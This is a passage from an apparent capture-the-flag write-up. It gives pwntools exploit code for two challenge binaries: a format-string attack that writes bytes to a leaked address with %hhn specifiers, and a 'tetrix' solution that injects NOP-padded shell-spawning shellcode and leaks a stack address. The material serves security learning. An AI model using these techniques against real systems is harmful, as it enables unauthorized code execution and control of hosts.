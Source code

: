 	p.recvuntil(b'A landslide has blocked the way at ').decode('utf-8').strip()
	rdn_addr_str = p.recvline().strip(b'\n')
	print('rdn_addr_str', rdn_addr_str)
	rdn_addr = int(rdn_addr_str, 16)
	
	target_address = rdn_addr
	
	payload = (b"%46c....")
	payload += (b"%16$hhn.")
	
	payload += (b"%61c....")  # t = 116 - 50 =
	payload += (b"%17$hhn.")
	
	payload += (b"%218c...")  # R = 82 - 116 + 256 =222 - 4
	payload += (b"%18$hhn.")
	
	payload += (b"%18c....")  # i = 105 - 82
	payload += (b"%19$hhn.")
	
	payload += p64(target_address)
	payload += p64(target_address + 1)
	payload += p64(target_address + 2)
	payload += p64(target_address + 3)
	
	
	p.recvuntil(b'Speak the phrase `2tRiViAl` and I shall open:').decode('utf-8').strip()
	p.sendline(payload)
	
	p.interactive()

	```
	
	
## tetrix--its not a formatstring practice!!!

* by reverse enginnering, only s/p useful
* by wasting a long time to figure out there's no vuln in formatstring, since the format string already be controlled
* step1: inject shellcode by menu p

	```
	shellcode = asm(shellcraft.sh())
	
	print('len(shellcode):', len(shellcode))
	padding = b'\x90' * ((0x53) - len(shellcode))
	
	# step1 get stack addr
	p.sendlineafter(b'$ ', b'p\n' + padding +shellcode)
	```
	
* step2: leak the stack addr

	```
	p.recvuntil(b'Error occurred while printing flag at offset ').decode('utf-8').strip()
	rdn_addr_str = p.recvline().strip(b'\n')
	print('stack_addr', rdn_addr_str)  # 7th from rsp or rbp addr
	stack_addr = int(rdn_addr_str, 16) + 16
	```
	
